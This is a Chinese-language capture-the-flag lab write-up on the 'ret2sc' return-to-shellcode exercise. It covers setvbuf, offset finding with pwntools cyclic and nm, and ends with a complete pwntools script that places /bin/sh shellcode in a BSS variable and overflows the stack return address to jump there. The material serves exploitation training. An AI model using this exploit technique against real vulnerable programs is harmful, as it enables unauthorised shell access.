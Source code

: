 # Lab3 ret2sc

## 先備知識

### setvbuf()

`int setvbuf(FILE *stream, char *buffer, int mode, size_t size)`

定義了stream的buffer怎麼被緩衝

- buffer 分配的緩衝區，如果是NULL會自動分配
- mode 0: FUll  buffering、1: Line buffering、2: No buffering
- size 單個緩衝區大小

這裡使用setvbuf(stdout, 0, 2, 0)設定為無緩衝

### Global variable

global variable的address會是固定的

### how to find offest

>>> from pwn import *

>>> cyclic(100)

>>> cyclic_find("<return overflow string>")

### nm 指令

顯示關於對象文件、可執行文件以及對象文件庫裏的符號信息。

- 故我們可以用 `nm ./ret2sc` 找到name這個global variable的位置
- 或是用`gdb% x/x &name`也可以

## Return to Shellcode

1. 將要執行的shellcode寫入可寫且可執行的變數中
2. 利用BOF return跳至該變數

## Solve

### 分析

1. 先用checksec檢查，發現NX是關的，代表他是可寫且可執行
2. 有兩個input，其中`name`為全域變數存放在BSS區段，而`buf`則存放在stack中
3. 利用pwn找到offset是32 ( 到return的距離 )

### 解題策略

將shellcode塞在name中，並且利用BOF將return的值蓋掉，跳轉到name的地方。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

r = process('./ret2sc')
name = 0x804a060 # address of name (BSS) where we are going to placed return 
r.recvuntil(":")
r.sendline(asm(shellcraft.sh())) # /bin/shell shellcode which is 24 bytes
r.recvuntil(":")
payload = "a"*32 # buffer size 
payload += p32(name) # overflow return 
r.sendline(payload)

r.interactive()
```
